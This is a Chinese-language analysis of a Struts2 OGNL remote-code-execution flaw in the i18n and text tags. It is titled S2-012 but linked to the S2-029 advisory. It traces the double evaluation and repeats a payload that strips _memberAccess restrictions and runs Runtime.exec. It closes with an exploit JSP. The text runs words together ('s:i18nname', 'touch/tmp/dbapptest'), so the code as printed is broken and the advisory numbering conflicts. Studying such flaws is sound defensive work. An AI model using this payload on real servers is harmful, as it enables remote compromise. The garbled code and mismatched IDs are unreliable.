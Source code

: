 # S2-012 远程代码执行漏洞

影响版本: Struts 2.0.0 - Struts 2.3.24.1 (except 2.3.20.3)

漏洞详情: <http://struts.apache.org/docs/s2-029.html>



## 原理

struts2的i18n,text标签的 name属性处理的时候会经过两次ognl执行，从而导致远程代码执行。

标签使用如下所示：s:i18nname="%{#request.lan}">xxxxx/s:i18n>s:textname="%{#request.lan}">xxxxx/s:text>，例如：

```
<s:i18nname="%{#request.lan}">xxxxx</s:i18n>
<s:textname="%{#request.lan}">xxxxx</s:text>
```

上面两个标签name属性都存在问题 下面对i18n标签做分析

跟踪i18n标签name 属性在代码中的处理:
```
org.apache.struts2.components.I18n

......

public boolean start(Writer writer) {

	boolean result = super.start(writer);

	try{

		String name = findString(this.name,"name", "Resource bundle name is required. Example: foo orfoo_en");//对i18n的name属性进行ognl执行并将结果赋值给name

		ResourceBundle bundle = (ResourceBundle)findValue("getTexts('"+ name + "')");//对上面获取的name属性继续做ognl表达式执行

		......

	}

}
```

其中对**findString****方法进行跟踪，则可以跟踪到**

com.opensymphony.xwork2.ognl.OgnlValueStack的protected Object findValue(Stringexpr, String field, String errorMsg) 方法，该方法是用来执行ognl表达式。

其中**findValue****方法进行跟踪，则可以跟踪到**

com.opensymphony.xwork2.ognl.OgnlValueStack的public Object findValue(Stringexpr, boolean throwExceptionOnFailure) 方法，该方法也是用来执行ognl表达式。

假设设置request的lan 属性为:

```
'),request,#_memberAccess['allowPrivateAccess']=true,#_memberAccess['allowProtectedAccess']=true,#_memberAccess['allowPackageProtectedAccess']=true,#_memberAccess['allowStaticMethodAccess']=true,#_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties'],#_memberAccess['excludedClasses']=#_memberAccess['acceptProperties'],#a=@java.lang.Runtime@getRuntime(),#a.exec('touch/tmp/dbapptest'),new java.lang.String('
```

其中运行的ognl表达式为%{request.lan}, 则第一次ognl表达式执行结果为:

```
'),request,#_memberAccess['allowPrivateAccess']=true,#_memberAccess['allowProtectedAccess']=true,#_memberAccess['allowPackageProtectedAccess']=true,#_memberAccess['allowStaticMethodAccess']=true,#_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties'],#_memberAccess['excludedClasses']=#_memberAccess['acceptProperties'],#a=@java.lang.Runtime@getRuntime(),#a.exec('touch/tmp/dbapptest'),new java.lang.String('
```

执行完成之后name的值为:

```
'),request,#_memberAccess['allowPrivateAccess']=true,#_memberAccess['allowProtectedAccess']=true,#_memberAccess['allowPackageProtectedAccess']=true,#_memberAccess['allowStaticMethodAccess']=true,#_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties'],#_memberAccess['excludedClasses']=#_memberAccess['acceptProperties'],#a=@java.lang.Runtime@getRuntime(),#a.exec('touch/tmp/dbapptest'),new java.lang.String('
```

然后将name值传入下面一行代码执行ognl, 其中ognl表达式为

```
getText(''),request,#_memberAccess['allowPrivateAccess']=true,#_memberAccess['allowProtectedAccess']=true,#_memberAccess['allowPackageProtectedAccess']=true,#_memberAccess['allowStaticMethodAccess']=true,#_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties'],#_memberAccess['excludedClasses']=#_memberAccess['acceptProperties'],#a=@java.lang.Runtime@getRuntime(),#a.exec('touch/tmp/dbapptest'),new java.lang.String('')
```

从而导致命令执行在/tmp目录下生成dbapptest 文件

其中poc中需要设置#_memberAccess['allowPrivateAccess']=true 用来授权访问private方法，

\#_memberAccess['allowStaticMethodAccess']=true 用来授权允许调用静态方法，

\#_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties']用来将受限的包名设置为空

\#_memberAccess['excludedClasses']=#_memberAccess['acceptProperties']用来将受限的类名设置为空

\#a=@java.lang.Runtime@getRuntime(),#a.exec(‘touch/tmp/dbapptest’),new java.lang.String(”)执行系统命令

## Exp
```
<%@pageimport="java.util.HashSet"%>

<%@ pagecontentType="text/html;charset=UTF-8" language="java" %>

<%@ taglib prefix="s"uri="/struts-tags" %>

<html>

<head><title>Demo jsppage</title></head>

<body>

<%

request.setAttribute("lan", "'),#_memberAccess['allowPrivateAccess']=true,#_memberAccess['allowProtectedAccess']=true,#_memberAccess['allowPackageProtectedAccess']=true,#_memberAccess['allowStaticMethodAccess']=true,#_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties'],#_memberAccess['excludedClasses']=#_memberAccess['acceptProperties'],#a=@java.lang.Runtime@getRuntime(),#a.exec('touch/tmp/fuckxxx'),new java.lang.String('");

%>

<s:i18nname="%{#request.lan}">xxxxx</s:i18n>

</body>

</html>
```
